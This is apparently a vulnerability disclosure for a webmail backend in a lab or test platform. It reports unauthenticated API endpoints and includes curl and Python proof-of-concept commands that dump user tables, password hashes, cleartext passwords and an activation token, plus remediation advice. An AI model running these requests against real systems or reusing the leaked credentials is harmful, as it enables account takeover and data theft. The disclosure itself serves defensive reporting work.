





# Description

Missing authentication (CWE-306) on the TrackBox webmail backend exposes two REST endpoints that return privileged data to **anyone**, with no session cookie, `Authorization` header, CSRF token, or rate-limit:

1. `GET /api/users` — the full user table, including the raw **unsalted SHA-256 password hash** of every account.
2. `GET /api/emails` (`API.py:101-139`) — the entire mailbox of every user. Welcome emails (sent by the Django setup script `setup/setup_webmail.py`) contain the user's **cleartext** V.R.C platform password, plus account-activation tokens.

The leak directly compromises the main V.R.C application: the welcome emails carry the cleartext login credentials, so dumping `/api/emails` yields the `admin` password and the shared default-user password, both of which authenticate on the main app. This is a single-request, unauthenticated, full-platform takeover.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | `GET /api/users` (no auth). | Dumps every username + SHA-256 hash. |
| 2 | `GET /api/emails` (no auth). | Dumps every mailbox, including cleartext passwords. |
| 3 | Reuse the harvested credentials on `/account/login/`. | Cross-service account takeover, including `admin`. |

# PoC

**1. Dump the user table and password hashes (unauthenticated):**

```bash
curl -sk http://webmail.<TARGET>/api/users | python3 -m json.tool | head
# {"count":30,"status":"success","users":[
#   {"password_hash":"74842c85...ccc47c","username":"admin@tbox.traced"}, ... ]}
```



**2. Confirm the algorithm is unsalted SHA-256** (re-hash a known password, bit-for-bit match):

```bash
python3 -c "import hashlib;print(hashlib.sha256(b'!Arthur894').hexdigest())"
# ca0b1036...373d81  → identical to the API value
```



**3. Dump every mailbox — welcome emails contain cleartext passwords:**

```
GET /api/emails  →  admin welcome mail: "Username: admin / Password: X#9kLm$P2v@nQ8w!ZjRe"
```

14 seeded users share `Tr@c3d!7BxN#m9Kw2YpL`.



**4. Activation tokens are leaked too** (future-signup hijack):

```
http://<TARGET>/account/activate/?username=arthur&token=3eca0c12e705686c034855322ea55faa
```



**5. Cross-service takeover on the main app** — harvested passwords log in directly as `admin`:



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Every mailbox, every cleartext password, every unsalted hash, every activation token — unauthenticated. |
| Integrity | Full account takeover of all users including `admin`; future signups hijackable via leaked activation tokens. |
| Availability | Harvested admin access enables destructive admin-panel actions. |

Overall severity: **Critical** — unauthenticated, internet-reachable, sub-minute full-platform compromise.

# Remediation

1. **Require authentication** on `/api/users` and `/api/emails`; authenticated users must see only their own mailbox.
2. **Never return password hashes** from any API, and **never email cleartext passwords** — use one-time activation links.
3. **Replace unsalted SHA-256** with a slow salted hash (argon2id / bcrypt / scrypt).
4. **Scope activation tokens** to single use with a short TTL; add rate-limiting and audit logging on all webmail routes.

# Author
Hackrapovic
